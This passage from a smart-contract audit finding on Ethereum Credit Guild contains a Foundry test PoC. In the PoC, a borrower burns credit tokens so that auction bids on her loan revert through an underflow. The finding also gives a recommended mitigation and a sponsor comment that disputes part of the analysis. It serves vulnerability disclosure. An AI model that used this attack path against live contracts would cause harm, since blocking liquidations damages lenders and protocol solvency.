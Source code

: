 ### Proof of Concept

Attached is a POC loosely following the attack path described above. It is a modification of the `testBidSuccessBadDebt` test and should be added to the AuctionHouse.t.sol test file:

```solidity
function testAttackBid() public {
  bytes32 loanId = _setupAndCallLoan();
  uint256 PHASE_1_DURATION = auctionHouse.midPoint();
  uint256 PHASE_2_DURATION = auctionHouse.auctionDuration() - auctionHouse.midPoint();
  vm.roll(block.number + 1);
  vm.warp(block.timestamp + PHASE_1_DURATION + (PHASE_2_DURATION * 2) / 3);

  // At this time, get full collateral, repay half debt
  (uint256 collateralReceived, uint256 creditAsked) = auctionHouse.getBidDetail(loanId);

  emit log_named_uint('collateralReceived', collateralReceived);
  emit log_named_uint('creditAsked', creditAsked);

  vm.startPrank(borrower);
  credit.burn(20_000e18);
  vm.stopPrank();

  // bid
  credit.mint(bidder, creditAsked);
  vm.startPrank(bidder);
  credit.approve(address(term), creditAsked);
  vm.expectRevert();
  auctionHouse.bid(loanId);
  vm.stopPrank();
}
```

In this POC, Alice mints tokens and then her loan gets sent to the auction house. Once Alice burns her tokens, Bob can no longer bid on her loan. Alice burning her tokens is the same as her supplying them to surplusguildminter since that contract will also burn her tokens.

### Tools Used

Foundry

### Recommended Mitigation Steps

If the `loss` is greater than the `creditTotalSupply`, the `creditMultiplier` should be set to `0`. This will prevent the system from breaking.

### Assessed type

Under/Overflow

**[eswak (Ethereum Credit Guild) commented](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1166#issuecomment-1896149404):**
 > > Here the term `creditTotalSupply` - loss is calculated to calculate the new credit multiplier. The issue is that the loss can be larger than the `creditTotalSupply` for large loans. This will lead to a revert.
> 
> > Alice burning her tokens is the same as her supplying them to SurplusGuildMinter since that contract will also burn her tokens.
> 
> This would not be the case, as the loss is reduced by the `surplusBuffer` when the tokens are burnt. So in the example, 0.8e18 credit staked get burnt, and the loss becomes 1e18 - 0.8e18 = 0.2e18, which is the balance that Alice has borrowed & still holds in her wallet, and worst case the `creditMultiplier` could go to `0`.
> 
> I think the fact that borrowers can just burn their borrowed credit tokens is another problem which I need to think through before weighing in.